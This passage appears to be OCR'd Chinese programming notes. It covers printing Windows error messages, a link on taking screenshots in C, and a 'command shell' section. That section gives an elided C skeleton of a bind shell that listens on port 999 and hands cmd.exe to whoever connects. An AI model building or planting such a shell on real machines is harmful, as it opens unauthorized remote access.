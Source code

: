 ```c
        0,
        NULL
    );
 
    printf("Error code %d: \n", error_num);
    if (msg == NULL)
    {
        printf("%s\n", "Unknown error");
	}
    else
    {
        printf("%s\n", msg);
	}
	
	system("pause"); 
}


```

## 截图
参考链接：
只找到了C语言实现截屏 - 秋叶落 - 博客园
https://www.cnblogs.com/wwj973/p/9610774.html


##  command shell
仅供参考
```c


#define MasterPort 999  //定义监听端口999
main()   //主函数入口
{
  .................
  //获取cmd路径
  GetEnvironmentVariable("COMSPEC",szCMDPath,sizeof(szCMDPath));
  //加载ws2_32.dll：
  WSAStartup(0x0202,&WSADa);
  //设置本地信息和绑定协议，建立socket，代码如下：
  SockAddrIn.sin_family = AF_INET;
 .......
  //设置绑定端口999：
  bind(CSocket,(sockaddr *)&SockAddrIn,sizeof(SockAddrIn));
  //设置服务器端监听端口：
  listen(CSocket,1);
  iAddrSize = sizeof(SockAddrIn);
  //开始连接远程服务器，并配置隐藏窗口结构体：
  SSocket = accept(CSocket,(sockaddr *)&SockAddrIn,&iAddrSize);
  ..........
  //创建匿名管道：
  CreateProcess(NULL, szCMDPath, NULL, NULL, TRUE, 0, NULL, NULL, &StartupInfo, &ProcessInfo);
.............
}

```
